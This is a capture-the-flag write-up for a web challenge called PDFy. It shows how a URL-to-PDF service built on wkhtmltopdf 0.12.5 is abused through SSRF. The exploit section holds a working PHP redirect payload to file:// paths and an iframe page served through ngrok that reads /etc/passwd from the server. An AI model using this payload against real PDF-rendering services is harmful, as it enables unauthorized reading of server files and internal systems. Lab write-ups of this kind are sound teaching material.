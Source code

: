 ```yaml
---
description: Easy 🔮 Web
cover: https://i.pinimg.com/564x/01/64/89/0164897c3365508be9e0eed7c8bcedeb.jpg
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PDFy

## Web app

The first look at the site is that it has a place to submit a URL

<figure><img src="../../../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

When we submit one URL, it'll generate it to PDF format. For example:&#x20;

<figure><img src="../../../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

Using some Burp to see what happens when we submit the URL

<figure><img src="../../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

It shows that when we enter a valid URL with the format it gives, we will be directed to a path <mark style="color:red;">**`/static/pdfs/.pdf`**</mark> and then display that PDF on our screen.

What about something that is not as its structure dictates?

This will cause an error and we will receive a message:&#x20;

<figure><img src="../../../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

This shows us that the website uses a tool to convert the URL into a PDF preview. And that tool is <mark style="color:red;">**wkhtmltopdf**</mark>

Let's delve deeper into this tool, such as its version.

After we submit successfully, a PDF preview will appear. Here we can see detailed information in this PDF:

<figure><img src="../../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

As we can see the version <mark style="color:red;">**`wkhtmltopdf`**</mark> use is <mark style="color:red;">**`0.12.5`**</mark>

I have researched this version on Google and recognize it is vulnerable to SSRF which allows an attacker to get initial access into the target's system by injecting an iframe tag with the initial asset IP address on its source. This allows the attacker to take over the whole infrastructure by accessing their internal assets.

[<mark style="color:red;">**`CVE-2022-35583`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2022-35583) is for <mark style="color:red;">**`wkhtmltopdf 0.12.6`**</mark> and since our version is <mark style="color:red;">**`0.12.5`**</mark>, which means the incidence of this vulnerability is higher.

## Exploit CVE-2022-35583

Based on the analysis, we can interact with the <mark style="color:red;">**`/api/cache`**</mark> URI by sending a POST request with JSON data. This endpoint communicates with the <mark style="color:red;">**`wkhtmltopdf`**</mark> application on the backend. The application expects a URL to be provided, which it will visit, extract the necessary information, and convert the webpage into a PDF file. Finally, the resulting PDF is returned to the main page.

My build and extraction process is based on this [article](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/). For more information about how the CVE works, you can visit and read this [PoC](https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/)

First of all, I'll create a <mark style="color:red;">**`payload.php`**</mark>:

```php
<?php header('location:file://'.$_REQUEST['x']); ?>
```

Because the website allows us to submit a valid URL, so we can build our small site for that

You can use another way to create a server, but I will use [<mark style="color:red;">**`ngrok`**</mark>](#user-content-fn-1)[^1] here

Setup [<mark style="color:red;">**`ngrok`**</mark>](#user-content-fn-2)[^2]:&#x20;

{% code overflow="wrap" %}
```bash
 curl -s https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok
```
{% endcode %}

```bash
ngrok config add-authtoken $YOUR_AUTHTOKEN # Authenticate your ngrok agent
```

```bash
ngrok tcp 127.0.0.1:8000 # Create ngrok tcp server
```

<figure><img src="../../../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Now let's create an <mark style="color:red;">**`index.html`**</mark> file

```html
<!DOCTYPE html>
<html lang=en>
<body>
    <iframe src="http://<NGROK_FORWARDING_IP>/payload.php?x=/etc/passwd" style="height:500px;width:100%"></iframe>
</body>
</html>
```

Save it and the final step is to start a web server on local machine:&#x20;

```bash
php -S 0.0.0.0:8000
```

Now we can submit our website and get a flag:

<figure><img src="../../../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
You can use <mark style="color:red;">**`http://`**</mark> instead of <mark style="color:red;">**`tcp://`**</mark>&#x20;
{% endhint %}

[^1]: Ngrok is a cross-platform application that allows developers to expose their local web servers to the internet. It hosts a local web server on its own sub-domain and makes your local development box available on the internet through Tunnelling.

[^2]: Ngrok is a cross-platform application that allows developers to expose their local web servers to the internet. It hosts a local web server on its own sub-domain and makes your local development box available on the internet through Tunnelling.
